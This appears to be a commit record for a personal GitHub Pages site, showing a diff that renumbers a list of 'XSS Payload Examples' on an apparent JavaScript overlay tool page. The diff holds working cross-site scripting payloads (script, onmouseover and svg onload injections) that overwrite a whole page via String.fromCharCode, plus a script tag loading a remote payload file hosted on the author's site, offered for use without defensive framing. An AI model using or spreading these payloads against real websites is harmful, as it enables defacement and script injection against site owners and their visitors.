

Before and after one commit to AggressiveUser/AggressiveUser.github.io, a plain HTML site: page OnlineTools/JSO/index.html in a window 1280 px wide. Shown: the part 131-800 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Javascript Overlay XSS

```diff
--- a/OnlineTools/JSO/index.html
+++ b/OnlineTools/JSO/index.html
@@ -117,13 +117,13 @@
   <div class="javascript-example">
     <h2>XSS Payload Examples</h3>
 	<h4>
-    <code>&lt;script&gt;document.documentElement.innerHTML=String.fromCharCode(Past Char Code Here !);&lt;/script&gt;</code><br>
-    <code>&lt;a onmouseover=document.documentElement.innerHTML=String.fromCharCode(Past Char Code Here !);&gt;SEEME&lt;/a&gt;</code><br>
-    <code>&lt;svg onload=document.documentElement.innerHTML=String.fromCharCode(Past Char Code Here !);&gt;</code><br>
-    <code>&lt;script src=https://aggressiveuser.github.io/food/simbba.js&gt;;&lt;/script&gt;</code>
-    <code>In Simbba.js paste below code with your char code.</code>
-    <code>document.documentElement.innerHTML = String.fromCharCode(Past Char Code Here !);</code>
-    <code>For Example: https://aggressiveuser.github.io/food/simbba.js</code>
+    <code>1.) &lt;script&gt;document.documentElement.innerHTML=String.fromCharCode(Past Char Code Here !);&lt;/script&gt;</code>
+    <code>2.) &lt;a onmouseover=document.documentElement.innerHTML=String.fromCharCode(Past Char Code Here !);&gt;SEEME&lt;/a&gt;</code>
+    <code>3.) &lt;svg onload=document.documentElement.innerHTML=String.fromCharCode(Past Char Code Here !);&gt;</code>
+    <code>4.) &lt;script src=https://aggressiveuser.github.io/food/simbba.js&gt;;&lt;/script&gt;</code>
+    <code>⠀ Note: In 'payload.js' paste below code with your char code.</code>
+    <code>⠀ document.documentElement.innerHTML = String.fromCharCode(Past Char Code Here !);</code>
+    <code>⠀ For Example: https://aggressiveuser.github.io/food/simbba.js</code>
 	</h4>
   </div>
 </div>
```
